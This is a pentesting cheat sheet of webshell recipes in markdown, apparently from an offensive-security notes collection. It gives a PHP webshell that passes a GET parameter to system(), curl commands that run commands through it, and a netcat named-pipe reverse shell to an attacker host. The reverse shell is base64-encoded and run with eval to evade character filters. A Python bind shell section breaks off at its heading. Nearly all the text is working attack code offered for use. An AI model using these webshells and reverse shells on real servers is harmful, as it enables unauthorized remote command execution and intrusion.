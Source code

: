 ```
<!--- id: webphp --->
<!--- title: Web server: cmd.php --->
<!--- keywords:  --->
## Web server: cmd.php

If you can upload a php file to the web server, the file below will allow you to run shell commands:
```
&lt?php echo 'Shell: ';system($_GET['cmd']); ?>
```

Run 'id' on the server
```
curl http://IPSERVER/cmd.php?cmd=id
```




<!--- category: Webshell --->
<!--- id: webphp22 --->
<!--- title: Web server: cmd.php (clean html) --->
<!--- keywords:  --->
## Web server: cmd.php (clean html)

Upload the file
```
&ltpre>&lt?php echo 'Shell: ';system($_GET['cmd']); ?>&lt/pre>
```

Run 'id' on the server
```
curl http://IPSERVER/cmd.php?cmd=id
```




<!--- category: Webshell --->
<!--- id: webphpbase64 --->
<!--- title: Web server: PHP code base64 encoded --->
<!--- keywords:  --->
## Web server: PHP code base64 encoded

Sometimes some characters like ; the & or the | are filtered. A base64 encoding allows to get out of it.<br/>
Base64 encode your command in an xterm:
```
$ printf 'system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IPKALI 4444 >/tmp/f");' | base64
```

Paste de base64 encoded command in PHP reverse shell code:
```
eval(base64_decode('c3lzdGVtKCJyEtxxxxxxxxxEkgNDQ0NCA+L3RtcC9mIik7='));
```




<!--- category: Webshell --->
<!--- id: pythonbind --->
<!--- title: Python bind shell --->
<!--- keywords:  --->
## Python bind shell
```